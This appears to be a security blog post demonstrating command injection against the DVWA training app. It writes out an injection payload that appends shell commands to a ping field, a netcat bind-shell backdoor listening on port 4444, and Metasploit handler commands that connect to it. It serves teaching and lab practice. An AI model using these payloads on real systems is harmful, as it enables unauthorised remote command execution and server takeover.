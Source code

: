 ```yaml
---
layout: post
section-type: post
has-comments: true
title: Exploiting Command Injection Vulnerability in DVWA
category: tech
tags: ["security", "redteam", "dvwa"]
---
```


In this post we'll go through the process of exploiting command injection
vulnerability in [DVWA]({% post_url 2017-04-02-dvwa-kali %}), and gain access to
the server using [Metasploit](https://www.metasploit.com/).

Command Injection is a type of vulnerability that allows attackers to execute
arbitrary commands on the host operating system by manipulating a vulnerable
software that the attacker can interact with. This type of attack is possible
when the application fails to properly validate user input and uses it to
execute shell commands on the host operating system.

To begin, we need to navigate to the _Command Injection_ section of DVWA, which
is designed to ping an IP address. Let's test the section by entering the IP
address `127.0.0.1` and observing the result.

![ci-1](/img/posts/ci/ci-1.png)

As we can see, the _Command Injection_ it's safe to assume that it simply
appends our input to the underlying bash command, and then it sends the result
as part of the returned HTML page. This means that we can use the input field to
execute arbitrary commands on the host operating system.

Let's try appending a list bash command after our input IP address:

```bash
127.0.0.1; ls
```

![ci-2](/img/posts/ci/ci-2.png)

As expected, the _Command Injection_ section executes the appended command and
displays the result. This confirms that we can use this vulnerability to execute
arbitrary commands on the host operating system.

Now, let's create a backdoor on the server by listening on port `4444` using
netcat and redirecting all the incoming bytes to a bash shell:

```bash
127.0.0.1; mkfifo /tmp/pipe ; sh /tmp/pipe | nc -l -p 4444 > /tmp/pipe
```

![ci-3](/img/posts/ci/ci-3.png)

As you can see, the page is loading forever, which means that our backdoor is
open and waiting for us.

Next, let's use Metasploit to gain access to the server. We will start
`msfconsole` and use the `exploit/multi/handler` module to open a shell on the
server:

```bash
msfconsole
use exploit/multi/handler
set payload linux/x64/shell/bind_tcp
set RHOST 127.0.0.1
exploit
```

![ci-4](/img/posts/ci/ci-4.png)

Note that we didn't set the `LPORT` of `bind_tcp`, since the default one is
`4444`.

As you can see, we are logged in as the `www-data` user, which has limited
privileges. We can't read the `/etc/shadow` file, which contains the user
passwords of the operating system. However, we have all the privileges that the
`www-data` user has and we can potentially modify DVWA or escalate to root by
exploiting a local privilege escalation vulnerability.

As a web developer, it's important to always sanitize your user input and never
pass this data to other applications without validating it first. In this case,
the application should validate the provided IP address and make sure that it's
a valid IP address before passing it to the `ping` command.
